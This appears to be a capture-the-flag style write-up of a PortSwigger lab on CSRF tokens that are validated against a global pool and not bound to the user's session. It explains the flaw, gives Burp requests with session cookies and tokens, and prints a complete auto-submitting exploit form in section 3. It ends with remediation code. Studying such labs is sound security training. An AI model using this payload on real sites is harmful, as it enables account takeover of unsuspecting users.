








## Challenge Overview

* **Challenge Name**: CSRF where token is not tied to user session
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Practitioner
* **Target Endpoint**: `POST /my-account/change-email`
* **Provided Credentials**: `wiener:peter` (Attacker Account), `carlos:montoya` (Victim Account)
* **Objective**: Exploit a flawed anti-CSRF implementation that validates tokens against a global pool rather than the specific user session by harvesting a valid token from an attacker session to change the victim's email address.

---

## 1. Core Fundamentals

### 1.1. The Synchronizer Token Pattern & The Session-Binding Axiom

In secure web application design, the **Synchronizer Token Pattern** relies on two indispensable, non-negotiable security requirements:
1. **Unpredictability:** The token must be generated via a Cryptographically Secure Pseudorandom Number Generator (CSPRNG) so that an external attacker cannot guess its value.
2. **Strict Session-Binding ($Token \in Session$):** The token **must be uniquely and cryptographically bound to the specific user's authenticated session**.

If a token is unpredictable but **not tied to the specific user's session**, the security guarantee collapses: an attacker can simply authenticate using their own legitimate account, obtain a valid token, and embed that token into an exploit payload targeting an unsuspecting victim.

### 1.2. The Ambient Authority Model & Automatic Cookie Transmission

Under the browser's **Ambient Authority** credential-handling model, whenever a web browser initiates an HTTP request targeting a destination origin, it automatically attaches all stored cookies matching that domain.

When a victim's browser is coerced into submitting a cross-site form, ambient credentials authenticate the victim. If the server only checks whether the accompanying CSRF token is cryptographically valid without verifying that it belongs to the authenticated session, the request succeeds.

### 1.3. The Architectural Flaw: The "Global Token Pool" Anti-Pattern

This vulnerability emerges when application architects decouple token validation from user session context.

Instead of associating tokens directly with user IDs or session identifiers (`session.csrfToken`), the application maintains a **centralized, global pool of issued tokens** (e.g., in a shared database table or global in-memory cache such as Redis):

```pseudo
// INSECURE ARCHITECTURAL IMPLEMENTATION (Global Token Store)
function validateCSRF(request, session):
    submittedToken = request.body.csrf
    
    // FATAL ARCHITECTURAL FLAW: Checks existence in a global pool,
    // but never validates IF this token was issued to THIS session!
    if globalTokenPool.contains(submittedToken):
        globalTokenPool.invalidate(submittedToken) // Mark as consumed (Single-Use)
        return true
    else:
        return false // HTTP 400 "Invalid CSRF token"
```

Under this flawed paradigm:
* The server issues a token to **User A** (`wiener`).
* The server registers the token in the global pool.
* **User B** (`carlos`) submits an action using **User A's** token.
* The server checks: *"Is this token in the pool?"* $\rightarrow$ **YES**.
* The server executes the action against **User B's session**, completely oblivious to the mismatch in token ownership.

### 1.4. Single-Use Token Nuance (Consume-on-Use Constraints)

In many implementations of this flaw, tokens are **Single-Use**—meaning that once a token is verified, the server consumes and invalidates it to prevent replay attacks.
* This introduces an essential penetration testing constraint: **any token consumed during manual verification (e.g., in Burp Repeater) cannot be reused in the final exploit payload**.
* An attacker must harvest a **fresh, unconsumed token** specifically for the weaponized payload delivered to the victim.

### 1.5. The Three Classical Preconditions for CSRF

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> BYPASSED: Attacker can supply a valid,      |
|                                             unpredictable token from their own account  |
+-----------------------------------------------------------------------------------------+
| VERDICT: CRITICALLY VULNERABLE TO CROSS-SESSION TOKEN SUBSTITUTION                      |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Cross-Session Substitution

The vulnerability arises from an asymmetrical trust boundary:
* **Authentication Boundary:** The application enforces strict per-user boundaries on session cookies (`Cookie: session=...`).
* **CSRF Validation Boundary:** The application treats all issued CSRF tokens as globally fungible assets.

Because authorization logic trusts any token present in the global pool, an attacker can cross trust boundaries by providing their own token to authorize a state change executed within the victim's session.

### 2.2. Attack Flow Diagram

```text
[ Step 1: Token Harvesting ]
Attacker (wiener) ──► GET /my-account?id=wiener ──► Receives Fresh Token: mQQwHsj...

[ Step 2: Payload Weaponization ]
Attacker ──► Embeds Wiener's fresh token into Exploit Server form:
             <form method="POST" action="https://target.com/my-account/change-email">
                 <input type="hidden" name="email" value="carlos999@gmail.com">
                 <input type="hidden" name="csrf" value="mQQwHsj...">
             </form>

[ Step 3: Exploitation ]
Victim (carlos) ──► Visits Exploit URL (/exploit)
       │
       │  Auto-submit script triggers cross-origin POST:
       ▼
Target Application Server
       │
       ├── Inspects Cookie: session=E2HN0U...  ──► Valid session for CARLOS!
       ├── Inspects body: csrf=mQQwHsj...      ──► Valid in Global Pool! (Belongs to Wiener)
       └── Server processes email modification for CARLOS!
       ▼
[ State Mutated: Carlos's Email Changed to carlos999@gmail.com ]
```

### 2.3. Root Cause Analysis

The root cause consists of **Decoupled Identity Verification**:
1. **Missing Session-to-Token Mapping:** The database or cache table holding CSRF tokens lacks a foreign key constraint linking each token record to a unique `session_id` or `user_id`.
2. **Global Pool Lookup:** The validation routine queries `SELECT COUNT(*) FROM csrf_tokens WHERE token = ?` rather than `SELECT COUNT(*) FROM csrf_tokens WHERE token = ? AND session_id = ?`.

---

## 3. Vulnerability Exploitation

### Phase 1: Harvesting Attacker's Baseline Token (`wiener`)

To prove token interchangeability, PortSwigger provides two sets of credentials:
* **Attacker Account:** `wiener:peter`
* **Victim Account:** `carlos:montoya`

We log into the attacker account (`wiener`) and request the account management interface:



```http
GET /my-account?id=wiener HTTP/2
Host: 0a9400d204c5a27683d20a16007700d2.web-security-academy.net
Cookie: session=vJKrafDb4fCLMaUR5v3wJBt0YhhEoN2x
```

We inspect the returned HTML DOM to extract the active CSRF token assigned to `wiener`:



```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="EWtSt8oeQu83F7thvhhtaXZ2xCahTWB7">
    <button class='button' type='submit'> Update email </button>
</form>
```

* **Wiener's Token:** `EWtSt8oeQu83F7thvhhtaXZ2xCahTWB7`
* **Wiener's Session Cookie:** `session=vJKrafDb4fCLMaUR5v3wJBt0YhhEoN2x`

---

### Phase 2: Establishing Victim Baseline Traffic (`carlos`)

In a private browsing window (or separate container), we log into the victim account (`carlos`):



```http
GET /my-account?id=carlos HTTP/2
Host: 0a9400d204c5a27683d20a16007700d2.web-security-academy.net
Cookie: session=E2HN0UBTaKvljXBJSYLr9VxJUhs6Zl8D
```

When `carlos` updates their email normally, Burp Suite intercepts the legitimate transaction:



```http
POST /my-account/change-email HTTP/2
Host: 0a9400d204c5a27683d20a16007700d2.web-security-academy.net
Cookie: session=E2HN0UBTaKvljXBJSYLr9VxJUhs6Zl8D
Content-Length: 62
Content-Type: application/x-www-form-urlencoded

email=carlos%40gmail.com&csrf=lJFgwuSPqo8KroE5ifTho6NmjNJmCb0a
```

* **Carlos's Session Cookie:** `session=E2HN0UBTaKvljXBJSYLr9VxJUhs6Zl8D`
* **Carlos's Native Token:** `lJFgwuSPqo8KroE5ifTho6NmjNJmCb0a`

---

### Phase 3: Proof-of-Concept: Cross-Account Token Substitution in Repeater

In **Burp Repeater**, we assemble the cross-account test:
* **Cookie Header:** Carlos's session cookie (`E2HN0UBTaKvljXBJSYLr9VxJUhs6Zl8D`).
* **CSRF Parameter:** Wiener's token harvested in Phase 1 (`EWtSt8oeQu83F7thvhhtaXZ2xCahTWB7`).
* **Email Parameter:** `carlos123@gmail.com`.



```http
POST /my-account/change-email HTTP/2
Host: 0a9400d204c5a27683d20a16007700d2.web-security-academy.net
Cookie: session=E2HN0UBTaKvljXBJSYLr9VxJUhs6Zl8D
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

email=carlos123%40gmail.com&csrf=EWtSt8oeQu83F7thvhhtaXZ2xCahTWB7
```

#### Server Response:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

#### Vulnerability Confirmation:
The server returned `302 Found` and modified Carlos's email. This conclusively proves that **CSRF tokens are pooled globally and not bound to the session that requested them**.

---

### Phase 4: Overcoming the Single-Use Token Trap (Fresh Token Acquisition)

Because the token `EWtSt8oeQu83F7thvhhtaXZ2xCahTWB7` was successfully executed in Repeater, **the server invalidated and consumed it**. Reusing this token in the final exploit payload will result in rejection (`"Invalid CSRF token"`).

Therefore, we return to the browser session of `wiener`, refresh `/my-account`, and extract a **brand-new, unconsumed token**:



```html
<input required type="hidden" name="csrf" value="mQQwHsjRf91PYvE4znpqSu43KQSR1F4E">
```

* **Fresh Unconsumed Token:** `mQQwHsjRf91PYvE4znpqSu43KQSR1F4E`

---

### Phase 5: Weaponizing the Exploit on Exploit Server

We navigate to the PortSwigger **Exploit Server** (`https://exploit-...exploit-server.net/exploit`) and configure the payload:



#### Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form method="POST" action="https://0a9400d204c5a27683d20a16007700d2.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="carlos999@gmail.com">
      <input type="hidden" name="csrf" value="mQQwHsjRf91PYvE4znpqSu43KQSR1F4E">
  </form>
  <script>document.forms[0].submit();</script>
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **Target Action:** Targets the legitimate mutation endpoint `https://0a9400d204c5a27683d20a16007700d2.web-security-academy.net/my-account/change-email`.
2. **Attacker-Supplied Token:** Injects the valid, unconsumed token `mQQwHsjRf91PYvE4znpqSu43KQSR1F4E` harvested from `wiener`.
3. **Target Payload:** Specifies the attacker's email `carlos999@gmail.com`.
4. **Auto-Submit Script:** Evaluates `document.forms[0].submit()` immediately upon DOM rendering, achieving **Zero-Click execution**.

---

### Phase 6: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the exploit response.
2. Click **Deliver exploit to victim** to simulate dispatching the phishing link to `carlos`.



#### Execution Flow & Lab Resolution:
1. The simulated victim bot (`carlos`) visits the attacker's `/exploit` endpoint while holding an active authenticated session.
2. The bot's browser evaluates the HTML and executes `document.forms[0].submit()`.
3. A cross-origin `POST` request is dispatched to `/my-account/change-email`.
4. The browser automatically attaches Carlos's session cookie (`Cookie: session=...`) due to ambient authority.
5. The request carries Wiener's valid, unconsumed CSRF token.
6. The target server verifies the token against its global pool. Finding it valid and unconsumed, the server updates Carlos's account email to `carlos999@gmail.com`.
7. The lab verifies the state mutation on the victim account and awards the **LAB Solved** status (*Figure 8*).

---

## 4. Remediation Strategies

Remediating decoupled CSRF token vulnerabilities requires enforcing strict cryptographic binding between tokens and authenticated session contexts.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. Session Binding       : Store tokens directly in the user's private session object   |
| 2. Cryptographic Binding : HMAC-SHA256 signature binding token to Session ID / User ID  |
| 3. Browser Attributes    : Enforce SameSite=Lax / SameSite=Strict on session cookies    |
| 4. Step-Up Security      : Re-authenticate current credentials on critical operations   |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Strict Session Binding (Primary Fix)

The application must strictly bind the CSRF token to the user's server-side session object. When validating the request, the server must compare the submitted token exclusively against the token residing within that specific session:

```javascript
// SECURE IMPLEMENTATION: Strict Session-Tied Validation (Node.js / Express)
function handleChangeEmail(req, res) {
    const submittedToken = req.body.csrf;
    const sessionToken = req.session.csrfToken; // Retrieved directly from authenticated session

    // Must be present AND must match the caller's specific session token
    if (!submittedToken || submittedToken !== sessionToken) {
        return res.status(403).json({ 
            error: "Forbidden: CSRF token does not match user session." 
        });
    }

    // Token is valid and belongs to the caller
    updateUserEmail(req.session.userId, req.body.email);
    return res.redirect('/my-account');
}
```

### 4.2. HMAC-Based Token Binding (Encrypted Token Pattern)

In modern stateless microservices architectures (where sessions are not retained in server memory):
* The token should be generated as an HMAC combining the user's Session ID or User ID with a server-side secret key:
  $$\text{CSRF\_Token} = \text{HMAC-SHA256}(\text{SessionID} \parallel \text{Timestamp}, \text{SecretKey})$$
* During verification, the server recalculates the HMAC using the `SessionID` from the incoming cookie and verifies the signature. 
* If an attacker supplies a token generated from their own session, the `SessionID` extracted from the victim's cookie will not match the HMAC signature, and the request is immediately rejected.

### 4.3. SameSite Cookie Isolation

Configure all sensitive authentication cookies with the `SameSite` attribute:

```http
Set-Cookie: session=...; Secure; HttpOnly; SameSite=Lax; Path=/
```
* `SameSite=Lax` ensures that cookies are withheld from cross-origin `POST` requests, preventing the browser from transmitting credentials during forged form submissions.

### 4.4. Mandatory Re-Authentication for Sensitive Account Modifications

Account-takeover vectors (such as changing email addresses or resetting passwords) must mandate step-up authentication:
* Require users to input their **current password** or submit a **Time-based One-Time Password (TOTP)**.
* Because an attacker cannot deduce or supply the victim's secret credentials, cross-site exploitation is rendered mathematically impossible.
